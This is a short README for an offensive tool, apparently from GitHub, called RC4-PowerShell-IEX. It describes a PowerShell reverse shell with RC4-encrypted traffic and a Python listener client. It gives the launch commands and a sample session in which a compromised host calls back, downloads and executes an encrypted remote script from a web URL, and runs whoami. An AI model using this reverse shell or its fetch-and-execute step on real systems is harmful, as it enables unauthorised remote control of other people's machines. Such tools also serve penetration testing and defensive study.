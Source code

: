 # RC4-PowerShell-IEX
Small powershell reverse shell using RC4 encryption

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test

On your host
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

python PsShellClient.py 0.0.0.0 1111 test
```

# Example
```
$ python PsShellClient.py 10.0.0.144 8080 test
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


[*] Waiting for a connection...
[+] Callback from 10.0.0.144:49758
(192.168.70.133:RINGZER0\ME):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141



(192.168.70.133:RINGZER0\ME):Url >null
(null):Exec >whoami
RINGZER0\ME

(192.168.70.133:RINGZER0\ME):Url >

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
